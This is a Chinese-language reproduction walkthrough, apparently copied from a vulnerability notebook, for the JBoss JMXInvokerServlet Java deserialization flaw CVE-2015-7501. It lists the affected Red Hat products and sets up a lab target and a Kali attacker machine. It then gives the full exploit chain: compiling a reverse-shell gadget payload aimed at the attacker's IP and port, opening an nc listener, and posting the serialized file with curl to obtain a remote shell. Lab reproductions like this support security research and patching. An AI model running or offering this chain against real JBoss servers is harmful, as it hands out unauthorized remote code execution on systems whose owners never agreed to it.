

# （CVE-2015-7501）JBoss JMXInvokerServlet 反序列化漏洞

> 原文：[http://book.iwonder.run/0day/Jboss/（CVE-2015-7501）JBoss JMXInvokerServlet 反序列化漏洞.html](http://book.iwonder.run/0day/Jboss/（CVE-2015-7501）JBoss JMXInvokerServlet 反序列化漏洞.html)

## 一、漏洞简介

由于 JBoss 中 invoker/JMXInvokerServlet 路径对外开放，JBoss 的 jmx 组件支持 Java 反序列化

## 二、漏洞影响

Red Hat JBoss A-MQ 6.x 版本；BPM Suite (BPMS) 6.x 版本；BRMS 6.x 版本和 5.x 版本；Data Grid (JDG) 6.x 版本；Data Virtualization (JDV) 6.x 版本和 5.x 版本；Enterprise Application Platform 6.x 版本，5.x 版本和 4.3.x 版本；Fuse 6.x 版本；Fuse Service Works (FSW) 6.x 版本；Operations Network (JBoss ON) 3.x 版本；Portal 6.x 版本；SOA Platform (SOA-P) 5.x 版本；Web Server (JWS) 3.x 版本；Red Hat OpenShift/xPAAS 3.x 版本；Red Hat Subscription Asset Manager 1.3 版本。

## 三、复现过程

win7 一台，ip 为 172.26.1.151（靶机，安装了 java 环境）

kali 一台，ip 为 192.168.1.192(攻击机)

输入[http://172.26.1.151:8080/invoker/JMXInvokerServlet](http://172.26.1.151:8080/invoker/JMXInvokerServlet) 返回如图，说明接口开发，存在反序列化漏洞


进入 kali 攻击机，下载反序列化工具:[https://github.com/ianxtianxt/CVE-2015-7501/](https://github.com/ianxtianxt/CVE-2015-7501/)

解压完，进入到这个工具目录 ,执行命令:

```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java 
```

继续执行命令:

```
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP 是攻击机 ip,4444 是要监听的端口) 
```

新界面开启 nc 准备接收反弹过来的 shell。命令:nc -lvnp 4444

这个时候在这个目录下生成了一个 ReverseShellCommonsCollectionsHashMap.ser 文件，然后我们 curl 就能反弹 shell 了，执行命令:

```
curl http://172.26.1.151:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser 
```



打开 nc 界面，发现 shell 已经弹回来了


